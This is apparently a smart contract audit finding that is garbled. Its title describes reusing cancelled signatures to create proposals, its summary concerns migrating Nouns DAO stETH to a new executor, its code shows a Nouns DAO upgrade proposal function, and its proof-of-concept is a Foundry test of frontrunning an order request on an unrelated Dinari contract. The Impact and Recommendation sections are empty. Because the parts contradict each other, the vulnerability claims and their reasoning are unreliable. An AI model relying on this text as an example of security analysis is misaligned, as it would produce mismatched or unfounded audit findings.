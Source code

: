 # Proposer can create arbitrary number of proposals combining same signatures as long as proposal thresold is reached.

## Summary
Cancelled signature can be reused to create proposal, thus making cancelling useless.
As NounsDAOExecutorV2 will be newly deployed rather than upgraded, list of queued transactions will not be migrated.
Those transactions will still be executed by NounsDAOExecutorV2 v1.

But all stETH balance will be migrated to new executor by upgrade proposal, chances are already queued transactions to spend stETH will not be executed as there's no stETH left.

## Vulnerability Details
Before executing upgrade proposal, executeTransaction

```solidity
    function propose(
        NounsDAOLogicV1 daoProxy,
        address daoV3Implementation,
        address timelockV2,
        uint256 ethToSendToNewTimelock,
        address erc20Transferer,
        address forkEscrow,
        address forkDeployer,
        address[] memory erc20TokensToIncludeInFork,
        string memory description
    ) internal returns (uint256 proposalId) {
        uint8 numTxs = 10;
        ...

        i++;
        targets[i] = erc20Transferer;
        values[i] = 0;
        signatures[i] = 'transferEntireBalance(address,address)';
        calldatas[i] = abi.encode(STETH_MAINNET, timelockV2);
        ...

```

## Proof of Concept 
```solidity
 function testFrontrunningRequestOrder() public {
        address malicious = address(0x6);
        address victim = user;

        paymentToken.mint(malicious, dummyOrder.quantityIn);
        paymentToken.mint(victim, dummyOrder.quantityIn);

        // 1. Frontrunning malicious's requestOrder - success
        vm.startPrank(malicious);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        issuer.requestOrder(dummyOrder, salt);

        // 2. Victim's requestOrder - failed
        vm.startPrank(victim);
        paymentToken.increaseAllowance(address(issuer), dummyOrder.quantityIn);
        vm.expectRevert(OrderProcessor.DuplicateOrder.selector);
        issuer.requestOrder(dummyOrder, salt);

        // 3. Then request cancel
        vm.startPrank(malicious);
        issuer.requestCancel(dummyOrder, salt);
    }
```

## Impact

## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L46C1-L58C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L205C1-L216C6
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/OrderProcessor.sol#L250C1-L252C74

## Tool used

Manual Review

## Recommendation
